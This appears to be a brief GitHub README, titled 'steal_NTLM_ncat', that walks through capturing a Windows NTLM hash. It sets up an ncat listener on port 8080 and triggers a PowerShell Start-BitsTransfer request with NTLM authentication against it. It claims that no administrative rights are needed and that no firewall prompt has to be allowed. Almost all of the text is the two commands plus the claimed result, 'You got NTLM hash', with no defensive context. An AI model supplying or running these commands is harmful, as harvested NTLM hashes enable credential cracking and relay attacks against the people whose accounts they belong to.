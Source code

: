 # steal_NTLM_ncat

**No administrative rights needed**

Start a CMD window and type:

`ncat -l 8080 --keep-open < hello.html`
**[No need to allow on firewall prompt]**

Start a Powershell window and type:

`Start-BitsTransfer -Authentication NTLM -Source http://127.0.0.1:8080 -Description http://127.0.0.1:8080`

Result:
___You got NTLM hash__



Can be changed to Negotiate as well, but didn't see the point
